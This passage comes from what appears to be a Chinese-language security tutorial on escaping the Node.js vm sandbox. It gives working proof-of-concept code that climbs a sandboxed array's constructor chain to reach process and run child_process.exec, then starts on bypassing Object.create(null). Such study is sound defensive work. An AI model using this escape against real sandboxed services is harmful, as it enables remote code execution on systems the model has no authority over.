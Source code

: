 我们通过`this`是指向的是 Context，其实也说明了只要是外部的引用的特性都是可以进行获取来进行逃逸的

示例：

```plain
const vm = require("vm");

const sandbox = {
    x: []
};

vm.createContext(sandbox);

const res = vm.runInNewContext('x.constructor.constructor("return process")()',sandbox);

console.log(res.mainModule.require('child_process').exec('calc'));
```

[![](assets/1706959000-ce6a6cdbf4b5d938ba3eab0ac44e9bb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140521-e3a1f504-bc10-1.png)

我们这里利用的是沙箱内定义的数组 x 进行 RCE 的，而且经过测试由于数字，字符串，布尔这些都是 primitive 类型，在传参的时候将数值传递过去，而不是引用属性，无法进一步调用`constructor`

### 沙箱逃逸绕过 Object.create(null)

我们既然知道`this`是引用的 Context 从而实现 RCE 的，如果我们将原型对象设置为 null，这样的话`this.constructor`获取不到对象，从而无法进行利用
